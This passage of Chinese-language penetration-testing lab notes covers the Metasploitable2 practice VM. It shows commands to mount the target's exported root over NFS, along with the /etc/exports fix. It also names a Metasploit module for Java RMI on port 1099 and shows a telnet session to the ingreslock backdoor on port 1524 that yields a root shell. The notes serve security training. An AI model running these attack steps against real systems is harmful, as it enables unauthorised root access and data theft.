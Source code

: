 ```

查看对方主机导出的目录
$ showmount -e 主机IP
Export list for 192.168.247.250:
/ *

将对方主机的根目录挂载到本地
# mkdir /mnt/target
# mount -t nfs 192.168.247.250:/ /mnt/target
```

修补：

```conf
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync) hostname2(ro,sync)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt)
# /srv/nfs4/homes  gss/krb5i(rw,sync)
#

#metasploittable2中该行配置导致任何人拥有读写权限，注释掉
#/       *(rw,sync,no_root_squash,no_subtree_check)

重启服务
# /etc/init.d/nfs-kernel-server restart
```

### Java RMI Registry

默认配置存在远程代码执行漏洞

端口：1099

利用：

```
msf5 > use exploit/multi/misc/java_rmi_server

```



### ingreslock

后门程序，提供远程root shell连接

端口：1524

利用：

```
$ telnet 192.168.247.250 1524
Trying 192.168.247.250...
Connected to 192.168.247.250.
Escape character is '^]'.
root@metasploitable:/# whoami
root
```

